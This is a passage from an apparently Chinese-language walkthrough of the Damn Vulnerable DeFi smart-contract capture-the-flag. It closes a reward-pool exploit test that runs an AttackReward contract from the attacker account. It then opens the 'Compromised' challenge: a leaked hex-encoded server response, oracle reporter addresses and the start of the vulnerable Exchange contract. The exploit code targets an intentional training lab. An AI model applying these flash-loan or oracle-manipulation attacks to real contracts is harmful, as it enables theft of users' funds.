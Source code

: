 ```
        governance.executeAction(actionId);
    `}`
`}`
```

```
const AttackReward = contract.fromArtifact('AttackReward');

it('Exploit', async function () `{`
    await time.increase(time.duration.days(5));
    const attack = await AttackReward.new(this.liquidityToken.address, this.rewardToken.address, this.flashLoanPool.address, this.rewarderPool.address, `{` from: attacker`}`);
    await attack.attack(TOKENS_IN_LENDER_POOL, `{` from: attacker `}`);
`}`);
```

[![](https://p2.ssl.qhimg.com/t01640c6d0ecc329670.png)](https://p2.ssl.qhimg.com/t01640c6d0ecc329670.png)



## Compromised

> While poking around a web service of one of the most popular DeFi projects in the space, you get a somewhat strange response from their server. This is a snippet:
<pre><code class="hljs">          HTTP/2 200 OK
          content-type: text/html
          content-language: en
          vary: Accept-Encoding
          server: cloudflare

          4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35

          4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34
</code></pre>
A related on-chain exchange is selling (absurdly overpriced) collectibles called “DVNFT”, now at 999 ETH each
This price is fetched from an on-chain oracle, and is based on three trusted reporters: `0xA73209FB1a42495120166736362A1DfA9F95A105`,`0xe92401A4d3af5E446d93D11EEc806b1462b39D15` and `0x81A5D6E50C214044bE44cA0CB057fe119097850c`.
You must steal all ETH available in the exchange.

本题要求我们从交换所中提走全部的 ETH，阅读交换所的合约代码：

```
contract Exchange is ReentrancyGuard `{`

    using SafeMath for uint256;
    using Address for address payable;

    DamnValuableNFT public token;
    TrustfulOracle public oracle;

    event TokenBought(address indexed buyer, uint256 tokenId, uint256 price);
    event TokenSold(address indexed seller, uint256 tokenId, uint256 price);

    constructor(address oracleAddress) public payable `{`
        token = new DamnValuableNFT();
        oracle = TrustfulOracle(oracleAddress);
    `}`

    function buyOne() external payable nonReentrant returns (uint256) `{`
        uint256 amountPaidInWei = msg.value;
```